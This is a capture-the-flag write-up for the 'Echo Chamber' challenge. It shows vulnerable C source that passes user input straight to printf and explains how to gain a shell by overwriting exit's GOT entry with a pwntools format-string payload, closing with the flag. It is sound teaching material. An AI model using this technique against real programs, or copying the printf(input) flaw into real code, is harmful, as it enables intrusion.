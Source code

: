 # Echo Chamber
chals.cyberthon22t.ctf.sg:20301

files: [echo_chamber](./echo_chamber) and [main.c](./main.c)

the challenge requires an understanding of C format string exploits and Global Offset Table exploits.

source code as seen:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void setup_IO()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
}

void shell()
{
    system("/bin/sh");
}

void main()
{
    char input[256];

    setup_IO();

    puts(" _______  _     _  __    _  _______  __   __  _______  _______  ______   ");
    puts("|       || | _ | ||  |  | ||       ||  | |  ||       ||       ||    _ |  ");
    puts("|    _  || || || ||   |_| ||_     _||  | |  ||_     _||   _   ||   | ||  ");
    puts("|   |_| ||       ||       |  |   |  |  |_|  |  |   |  |  | |  ||   |_||_ ");
    puts("|    ___||       ||  _    |  |   |  |       |  |   |  |  |_|  ||    __  |");
    puts("|   |    |   _   || | |   |  |   |  |       |  |   |  |       ||   |  | |");
    puts("|___|    |__| |__||_|  |__|  |___|  |_______|  |___|  |_______||___|  |_|");
    puts("");
    puts("=========================================================================");
    puts("                         Stage 4: Echo Chamber");
    puts("=========================================================================");
    printf("Enter Input => ");

    fgets(input, 255, stdin);

    puts("ECHO:");
    printf(input);

    exit(0);
}
```
A buffer overflow would not be possible because exit() is called before the function returns, so overwriting the rip is useless as the program would never jump to it anyway. 

Since the program has partial RELRO, the GOT would be writable, which is something we can exploit to redirect code execution.

for the exit() function, the program would go from exit@PLT --> exit on the GOT --> actual instruction on the GOT

What we want to do is overwrite the actual instruction on the GOT so that when exit() is called, it isn't actually run and shell() runs instead

we can do this with pwntools, `fmtstr_payload(offset, write)`

The offset can be found with a fuzzing script or manually with "examplestring %p %p %p" or "examplestring %n$p" where n increases

When the format string returns the hex of examplestring, that is where the format string overwrite occurs.

In this case we have `offset = 6`.

Given a binary, pwntools can help extract and use function addresses in the program. <https://docs.pwntools.com/en/stable/elf/elf.html>

```python
# declare the binary
elf = context.binary = ELF("./binary")

# remove the need to hardcode addresses
# we want to replace the GOT address of exit() with shell()
write = {elf.got['exit']:elf.symbols['shell']}
```

We can use pwntools `fmtstr_payload()` function to generate the payload to the connection. With general template as follows:

```python3
p = connect("url", port)
elf = context.binary = ELF("./binary")

offset = n
write = {<addr a>:<addr b>} # where address b will overwrite the one at a
payload = fmtstr_payload(offset, write)
p.sendline(payload)
p.interactive()
```

full script at [exploit.py](./exploit.py)

`CTFSG{3ch0_4ft3r_m3_d0nt_p455_us3r_1nput_2_pr1ntf}`
